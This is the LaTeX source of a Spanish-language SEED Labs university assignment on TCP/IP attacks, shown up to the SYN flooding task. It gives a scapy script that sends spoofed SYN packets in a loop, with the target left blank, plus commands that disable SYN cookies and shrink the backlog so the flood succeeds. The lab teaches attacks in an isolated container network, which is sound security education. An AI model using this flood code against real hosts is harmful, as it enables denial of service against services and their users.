%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{
Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentA}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentB}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED .\xspace}

\newcommand{\seedenvironmentC}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED. Sin embargo, la mayoría de nuestros laboratorios pueden ser realizados en la nube para esto Ud. puede leer nuestra guía que explica como crear una VM de SEED en la nube.\xspace}

\newcommand{\seedenvironmentAB}{
Este laboratorio ha sido testeado en nuestras imagenes pre-compiladas de una VM con Ubuntu 16.04 y otra con Ubuntu 20.04, que pueden ser descargadas del sitio oficial de SEED.\xspace}

\newcommand{\nodependency}{Dado que utilizamos contenedores para configurar el entorno de laboratorio, este laboratorio no depende estrictamente de la VM de SEED. Puede hacer este laboratorio utilizando otras máquinas virtuales, máquinas físicas o máquinas virtuales en la nube.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      Este trabajo se encuentra bajo licencia Creative Commons.
       Attribution-NonCommercial-ShareAlike 4.0 International License.
       Si ud. remezcla, transforma y construye a partir de este material,
       Este aviso de derechos de autor debe dejarse intacto o reproducirse de una manera que sea razonable para el medio en el que se vuelve a publicar el trabajo.
       }}
\vspace{0.1in}
}






\newcommand{\telnet} {\texttt{telnet}\xspace}
\newcommand{\tcpFigs}{./Figs}

\lhead{\bfseries SEED Labs -- Laboratorio de Ataques TCP/IP}

\begin{document}

\newcounter{task}
\setcounter{task}{1}
\newcommand{\mytask} {\bf {\noindent \arabic{task}} \addtocounter{task}{1} \,}



\begin{center}
{\LARGE Laboratorio de Ataques TCP/IP}
\end{center}

\seedlabcopyright{2018 - 2020}



% *******************************************
% SECTION
% ******************************************* 
\section{Descripción General}

El objetivo de este laboratorio es que el estudiante gane experiencia en vulnerabilidades como también en ataques contra esas vulnerabilidades. Los sabios aprenden de sus errores. En la educación de la seguridad informática, estudiamos errores que terminan siendo vulnerabilidades en el software. Estudiar los errores del pasado no sólo ayuda a los estudiantes a entender porque los sistemas son vulnerables, porque un descuido inofensivo en aparencia puede desembocar en un desastre, y porque son necesarios tantos mecanismos de seguridad. Sino que aún más importante ayuda a los estudiantes a entender los patrones comúnes en las vulnerabilidades y evitar cometer los errores del pasado en el futuro. Además usando esas vulnerabilidades como casos de estudio, los estudiantes pueden aprender los principios del diseño seguro, del desarrollo seguro y del testeo en la seguridad informática.

Las vulnerabilidades en los protolos TCP/IP representan un tipo de género especial dentro de los que son las vulnerabilidades en el diseño y la implementación de los protocolos; Nos muestran una lección fundamental y es que la seguridad debe ser concebida desde el momento en que se empieza a diseñar y no después. Por otra parte estudiar esas vulnerabilidades ayuda a los estudiantes a comprender los desafíos de la seguridad en las redes y porque son necesarias tantas métricas de seguridad.
En este laboratorio los estudiantes llevarán a cabo varios Ataques contra el protocolo TCP.
Este laboratorio cubre los siguientes tópicos:

\begin{itemize}[noitemsep]
\item El protocolo TCP
\item Ataque de TCP SYN flood y las SYN cookies 
\item Ataque de TCP reset 
\item Ataque de TCP session hijacking
\item Shell Reversa
\item En un laboratorio aparte se cubre un tipo especial de ataque llamado El Ataque de Mitnick o Mitnick Attack
\end{itemize}


\paragraph{Lecturas y Videos.}
Para una cobertura más detallada sobre Ataques TCP puede consultar

\begin{itemize}
\item Capítulo 16 del libro de SEED, \seedbook
\item Sección 6 del curso de SEED en Udemy, \seedisvideo
\end{itemize}


\paragraph{Entorno de Laboratorio.} \seedenvironmentC



% *******************************************
% SECTION
% ******************************************* 
\section{Entorno de Laboratorio}

Para este laboratorio, necesitamos tener al menos tres máquinas. Usaremos contenedores para configurar el entorno del laboratorio. La Figura \ref{tcp:fig:labsetup} describe la configuración del entorno.
Usaremos el contenedor del atacante para atacar mientras que los tres contenedores restantes serán la máquina víctima y la de los usuarios.
Se asume que todas las máquinas están en la misma LAN.
Los estudiantes pueden optar por usar máquinas virtuales en vez de contenedores, aunque la última opción es más conveniente.


\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\commonfolder/Figs/OneLan.pdf}
\end{center}
\caption{Configuración del entorno}
\label{tcp:fig:labsetup}
\end{figure}
 

%\begin{lstlisting}[backgroundcolor=]
%  +------------+      +------------+  +------------+  +------------+
%  |  Attacker  |      |   Victim   |  |    User 1  |  |   User 2   |
%  |  10.9.0.1  |      |  10.9.0.5  |  |  10.9.0.6  |  |  10.9.0.7  |
%  +----+-------+      +------+-----+  +------+-----+  +------+-----+
%       |                     | eth0          | eth0          | eth0
%       |                     |               |               |
%-------+---------------------+---------------+---------------+-------
%           Network  10.9.0.0/24
%
%\end{lstlisting}
 

% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Setup del Contenedor y sus Comandos}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Para empezar a preparar el contenedor, deberá descargarse el archivo \texttt{Labsetup.zip} ubicado en el laboratorio correspondiente dentro del sitio web oficial y copiarlo dentro de la Máquina Virtual prevista por SEED. Una vez descargado deberá descomprimirlo y entrar dentro del directorio \texttt{Labsetup} donde encontrará el archivo \texttt{docker-compose.yml} que servirá para setear el entorno de laboratorio. Para una información más detallada sobre el archivo \texttt{Dockerfile} y otros archivos relacionados, puede encontrarla dentro del Manual de Usuario del laboratorio en uso, en el sitio web oficial de SEED.

Si esta es su primera experiencia haciendo el setup del laboratorio usando contenedores es recomendable que lea el manual anteriormente mencionado.

A continuación, se muestran los comandos más usados en Docker y Compose.
Debido a que estos comandos serán usados con mucha frecuencia, hemos creados un conjunto de alias para los mismos, ubicados en del archivo \texttt{.bashrc} dentro de la Máquina Virtual provista por SEED (Ubuntu 20.04)

\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


Dado que todos los contenedores estarán corriendo en un segundo plano. Necesitamos correr comandos para interactuar con los mismos, una de las operaciones fundamentales es obtener una shell en el contenedor. 
Para este propósito usaremos \texttt{"docker ps"} para encontrar el ID del contenedor deseado y ingresaremos \texttt{"docker exec"} para correr una shell en ese contenedor.
Hemos creado un alias para ello dentro del archivo \texttt{.bashrc}

\begin{lstlisting}
$ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

// Note: If a docker command requires a container ID, you do not need to 
//       type the entire ID string. Typing the first few characters will 
//       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}

En caso de problemas configurando el entorno, por favor consulte la sección ``Common Problems'' en el manual ofrecido por SEED. 


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

 
% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{El Contenedor del Atacante}

Para este laboratorio, podemos usar la Máquina Virtual o el Contenedor como la máquina del Atacante. Si hecha un vistazo al archivo de Docker Compose, verá que el contenedor del Atacante está configurado de manera diferente del resto de los contenedores. 

\begin{itemize}
\item \textit{Directorio Compartido.} Cuando usemos el contenedor del atacante para lanzar los ataques, necesitamos poner el código de ataque dentro del contenedor.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Code editing is more convenient inside the VM than in containers, 
because we can use our favorite editors.
In order for the VM and container to share files, 
we have created a shared folder between the VM and the container
using the Docker \texttt{volumes}.
If you look at the Docker Compose file, you will find out that
we have added the following entry to some of the containers.
It indicates mounting the \texttt{./volumes} folder on the host
machine (i.e., the VM) to the \texttt{/volumes} folder inside the container.
We will write our code in the \texttt{./volumes} folder (on the VM), so they
can be used inside the containers.

\begin{lstlisting}
volumes:
       - ./volumes:/volumes
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\item \textit{Modo Host.}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
In this lab, the attacker needs to be able to sniff packets,
but running sniffer programs inside a container has problems, because
a container is effectively attached to a virtual switch, 
so it can only see its own traffic, and it is never going to see 
the packets among other containers. To solve this problem,
we use the \texttt{host} mode for the attacker container. This
allows the attacker container to see all the traffics. The following
entry used on the attacker container:

\begin{lstlisting}
network_mode: host
\end{lstlisting}

When a container is in the \texttt{host} mode,  it sees
all the host's network interfaces, and it even has the same
IP addresses as the host. Basically, it is put in the
same network namespace as the host VM. However, the container
is still a separate machine, because its other namespaces are
still different from the host.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\end{itemize}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%\input{\commonfolder/container_interface}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{La cuenta seed} 

Para este laboratorio, necesitamos hacer telnet de un contenedor a otro.
Hemos creado una cuenta llamada \texttt{seed} dentro de todos los contenedores.
El password de la misma es \texttt{dees}. Puede usar esta cuenta para telnet.



% *******************************************
% SECTION
% *******************************************
\section{Tarea 1: Ataque de SYN Flooding}


\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{\tcpFigs/TCP_SYN_Flooding.pdf}
  \end{center}
  \caption{Ataque SYN Flooding}
  \label{tcp:fig:synflooding}
\end{figure}
 

El SYN Flood es ataque del tipo DoS, en el cual el atacante envía muchos requests SYN hacia un puerto TCP de la máquina víctima, pero el atacante no tiene la intención de completar el proceso del 3-way handshake. Los atacantes pueden usar una dirección IP spoofeada o optar por descontinuar el proceso.
A través de este ataque, los atacantes pueden saturar (flooding) la cola de las half-opened connections (es decir las conexiones que no han terminado de completar el proceso 3-way handshake y han logrado llegar hasta el SYN, SYN-ACK pero no dieron el ACK final) en la máquina de víctima, cuando esta cola se llena la víctima no puede recibir más conexiones. La Figura \ref{tcp:fig:synflooding} muestra este ataque.

El tamaño de la cola es establecido a través de una configuración global del sistema. En los sistemas Ubuntu, podemos chequear esta configuración usando el siguiente comando. El Sistema Operativo establece este valor basado en el total de memoria que el sistema tiene: mientras más memoria, este valor es más grande.

\begin{lstlisting}
# sysctl net.ipv4.tcp_max_syn_backlog
net.ipv4.tcp_max_syn_backlog = 128
\end{lstlisting}

Podemos usar el comando \texttt{"netstat -nat"} para chequear el uso que se está haciendo de esa cola, es decir el número de half-opened conections asociadas a un puerto que está a la escucha.
El estado de estas conexiones es \texttt {SYN-RECV}. Si se completa el 3-way handshake, el estado de las conexiones será {\tt ESTABLISHED}.


\paragraph{SYN Cookie como Contramedida:}
Por defecto Ubuntu tiene una contramedida activada para protegerse del SYN Flooding. Esta protección es llamada SYN cookie, esta entrará en juego si detecta que el sistema está siendo atacado por un ataque del tipo SYN Flooding.
en nuestro contenedor que se usa como servidor víctima, hemos desactivado esta contramedida (puede ver la entrada \texttt{sysctls} en el archivo \texttt{docker-compose.yml}).
Para activarla o desactivarla podemos usar el comando \texttt{sysctl}:

\begin{lstlisting}
# sysctl -a | grep syncookies     (Display the SYN cookie flag) 
# sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie)
# sysctl -w net.ipv4.tcp_syncookies=1 (turn on  SYN cookie)
\end{lstlisting}

Para poder usar \texttt{sysctl} para cambiar los valores globales de las variables del sistema dentro del contenedor, el contenedor necesita estar configurado con la entrada \texttt{"privileged: true"} (en nuestro caso el contenedor víctima).
Sin esta configuración, si corremos el comando anteriormente mencionado veremos el siguiente mensaje de error. Esto se debe a que el contenedor no tiene los privilegios para realizar este cambio.

\begin{lstlisting}
# sysctl -w net.ipv4.tcp_syncookies=1
sysctl: setting key "net.ipv4.tcp_syncookies": Read-only file system
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Tarea 1.1: Lanzando el ataque usando Python}

Hemos provisto un programa de Python llamado \texttt{synflood.py}, pero
intencionalmente hemos omitido algunos datos esenciales en el código.
Este código envía paquetes TCP SYN spoofeadoos, con una dirección IP de origen, el puerto destino y el número de secuencia, generados de forma aleatoria.
Los estudiantes deberán de completar y terminar el código y usarlo para lanzar el ataque en la máquina víctima.


\begin{lstlisting}
#!/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
    pkt[TCP].sport = getrandbits(16)     # source port
    pkt[TCP].seq   = getrandbits(32)     # sequence number
    send(pkt, verbose = 0)
\end{lstlisting}

Deje que el ataque se ejecute durante al menos un minuto, luego intente hacer telnet en la máquina de la víctima y vea si puede tener éxito. Es muy probable que
su ataque falle. Esto puede deberse a varios problemas. A continuación se enumeran las posibles causas de estos fallos y como abordarlas.

\begin{itemize}
  \item \textbf{Problema de Cache TCP:} Vea la Nota A más abajo

  \item \textbf{Problema de VirtualBox:} Si está realizando el ataque desde una Máquina Virtual contra otra en vez de usar los contenedores, por favor vea la Nota B más abajo. Esto no ocurre si se hace el ataque usando los contenedores.

  \item \textbf{Problema de retransmisión TCP:} 
  Después de enviar un paquete SYN+ACK, la máquina víctima esperará por el paquete ACK. Si este no llega a tiempo, TCP retransmitirá el paquete SYN+ACK. 
  La cantidad de veces que TCP retransmitirá este paquete, dependerá de los siguientes parámetross en el kernel (por defecto su valor es de 5)
    
\begin{lstlisting}
# sysctl net.ipv4.tcp_synack_retries
net.ipv4.tcp_synack_retries = 5
\end{lstlisting}
	
	Después de realizar 5 retransmisiones, TCP borrará el item correspondiente de la cola half-open connection. Cada vez que un item es borrado, un nuevo slot se abre. Esto provocará que sus paquetes de ataque y otros paquetes legítimos "luchen" en cierta forma por entrar en este nuevo slot que se liberó. Puede ocurrir que nuestro programa Python no sea lo suficiente rápido y que gane un paquete legítimo en vez del que estamos usando para atacar. Para ganar esta carrera, podemos correr varias instancias en paralelo del programa de ataque en Python. Por favor intente esta estrategia y vea si puede lograr un ataque exitoso.¿Cuántas instancias fueron necesarias para lograr un ataque exitoso?
 

  \item \textbf{El tamaño de la cola:}  
  	La cantidad de conexiones que pueden ser guardadas en la cola de  half-open connections pueden afectar al exito del ataque. El tamaño de la cola puede ser ajustado usando el siguiente comando:

\begin{lstlisting}
# sysctl -w net.ipv4.tcp_max_syn_backlog=80
\end{lstlisting}
     
     Mientras que el ataque este en curso, puede correr uno de los siguientes comandos en el contenedor de la víctima para monitorear cuantos items están en la cola. Cabe notar que un cuarto del espacio en la cola está reservado para ``destinos probados'' (Vea la Nota A) por lo tanto si ponemos un tamaño de 80 su capacidad actual es alrededor de 60.
     
\begin{lstlisting}
$ netstat -tna | grep SYN_RECV | wc -l
$ ss -n state syn-recv sport = :23 | wc -l
\end{lstlisting}

	Por favor reduzca el tamaño de la cola de half-open connection en la máquina víctima y vea si puede mejorar el éxito de su ataque.
\end{itemize}

\paragraph{Nota A: Mecanismo de mitigación del Kernel.} 
